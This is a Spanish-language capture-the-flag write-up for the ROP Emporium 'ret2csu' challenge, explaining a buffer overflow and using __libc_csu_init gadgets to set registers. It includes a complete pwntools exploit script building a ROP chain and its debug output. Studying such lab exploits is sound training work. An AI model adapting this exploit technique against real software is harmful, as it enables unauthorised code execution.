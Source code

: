 Este ejercicio es como el [callme](https://ub1cu0.gitbook.io/pwn-writeups/ropemporium/3.-callme-x86_64) pero sin tener que hacer saltos a 3 funciones. Simplemente hay que hacer un salto a la función `ret2win`. Vamos a intentarlo para ver cual es el muro que tenemos ahora:

```c
undefined8 main(void)
{
    pwnme();
    return 0;
}
```

```c
void pwnme(void)
{
    undefined array[32];

    setvbuf(stdout, (char *)0x0, 2, 0);
    puts("ret2csu by ROP Emporium");
    puts("x86_64\n");
    memset(array, 0, 0x20);
    puts(
        "Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n"
    );
    printf("=> ");
    read(0, array, 0x200); // Buffer Overflow
    puts("Thank you!");
    return;
}

```

Como podemos ver la función `pwnme` tiene un buffer overflow con mucha capacidad, lo cual nos da la capacidad de hacer una rop chain larga. Vamos a observar ahora la función `ret2win`:

```c
void ret2win(long param_1, long param_2, long param_3)
{
. . .
    if (((param_1 != -0x2152411021524111) || (param_2 != -0x3501454135014542)) || (param_3 != -0x2ff20ff22ff20ff3)) {
        puts("Incorrect parameters");
        exit(1);
    }
}
. . .
```

Como en el [callme](https://ub1cu0.gitbook.io/pwn-writeups/ropemporium/3.-callme-x86_64), este ejercicio pide 3 argumentos para que nos imprima la flag (`RDI`, `RSI` y `RDX`):

Vamos a buscar gadgets para poner esos registros con los valores que necesitamos:

```c
0x004006a3 : pop rdi ; ret // RDI
0x004006a1 : pop rsi ; pop r15 ; ret // RSI
```

Hay un problema, no hay ningún `pop rdx`. Aquí está la nueva dificultad del ejercicio. Para solucionarlo tenemos que, tal como da a entender el nombre del ejercicio, usar la función `__libc_csu_init`, que se genera automáticamente al compilar un programa y siempre mete un par de gadgets bastante útiles: uno para hacer varios `pop` seguidos y otro que hace `mov rdx, r15; mov rsi, r14; mov edi, r13d; call [r12+rbx*8]`. Con esto podemos setear `rdx` aunque no haya un `pop rdx` normal, y así pasar todos los argumentos que necesitamos. Vamos a usar la siguiente examen como referencia:

<figure><img src="https://1790737885-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FslrEYJPx2X6Fc2iLHKGp%2Fuploads%2FJPaQXTVI0XZJcs2lk0eu%2Fimage.png?alt=media&#x26;token=9ff52bc1-d929-4777-b040-3a9b93c523df" alt=""><figcaption></figcaption></figure>

Como podemos ver podemos llamar primero al gadget 1 para setear varios registros que luego en el gadget 2 lo moverán a los registros que nos hacían falta. Tenemos que tener en cuenta que en el gadget 2 hay un call así que tenemos que intentar que esto:

```c
400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
```

Da como resultado una función que nos haga un return y que no nos altere ningún registro importante. Otra cosa a tener en cuenta es que en el gadget 1 hay que poner que el `rbx` sea el valor de `rbp - 1` ya que el gadget tiene estas lineas:

```c
  400691:	48 39 dd             	cmp    rbp,rbx
  400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
```

Entonces si no se cumple eso hará un salto a otra función y no queremos eso. Tenemos que tener en cuenta también que en la segunda pasada se volverán a hacer los pops así que tenemos que popear 7 veces algo, 6 veces por los `pop` y 1 vez por el `add`. Ahora que sabemos esto podemos preparar el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./ret2csu")
libc = ELF("./libret2csu.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b 400696
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    pop_rdi = 0x004006a3 # pop rdi ; ret
    mov_long = 0x400680
    pop_rbx_rbp_r12_r13_r14_r15 = 0x40069a
    pop_rsi_r15 = 0x004006a1 # pop rsi ; pop r15 ; ret
    
    parametros = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
    
    # 400680:	4c 89 fa             	mov    rdx,r15
    # 400683:	4c 89 f6             	mov    rsi,r14
    # 400686:	44 89 ef             	mov    edi,r13d
    # 400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
    # 40068d:	48 83 c3 01          	add    rbx,0x1
    # 400691:	48 39 dd             	cmp    rbp,rbx
    # 400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
    # 400696:	48 83 c4 08          	add    rsp,0x8
    # 40069a:	5b                   	pop    rbx
    # 40069b:	5d                   	pop    rbp
    # 40069c:	41 5c                	pop    r12
    # 40069e:	41 5d                	pop    r13
    # 4006a0:	41 5e                	pop    r14
    # 4006a2:	41 5f                	pop    r15
    # 4006a4:	c3                   	ret
    
    # Contents of section .init_array:
    # 600df0 00064000 00000000

    offset = 40
    
    payload = flat({
        offset: [
            pop_rbx_rbp_r12_r13_r14_r15, 0, 1, 0x600df0, 0x0, parametros[1], parametros[2],
            mov_long, 0, 0, 0, 0, 0, 0, 0,
            pop_rdi, parametros[0],
            pop_rsi_r15, parametros[1], 0,
            exe.plt['ret2win'],
        ]
    })


    io.sendlineafter(b'>', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/ret2csu/ret2csu': pid 822203
[DEBUG] Received 0x8c bytes:
    b'ret2csu by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n'
    b'\n'
    b'> '
[DEBUG] Sent 0xd1 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  9a 06 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  00 00 00 00  00 00 00 00  01 00 00 00  00 00 00 00  │····│····│····│····│
    00000040  f0 0d 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │··`·│····│····│····│
    00000050  be ba fe ca  be ba fe ca  0d f0 0d d0  0d f0 0d d0  │····│····│····│····│
    00000060  80 06 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000a0  a3 06 40 00  00 00 00 00  ef be ad de  ef be ad de  │··@·│····│····│····│
    000000b0  a1 06 40 00  00 00 00 00  be ba fe ca  be ba fe ca  │··@·│····│····│····│
    000000c0  00 00 00 00  00 00 00 00  10 05 40 00  00 00 00 00  │····│····│··@·│····│
    000000d0  0a                                                  │·│
    000000d1
[*] Switching to interactive mode
 [*] Process '/home/ub1cu0/Desktop/ropEmporium/ret2csu/ret2csu' stopped with exit code 0 (pid 822203)
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona! Gracias por leer!
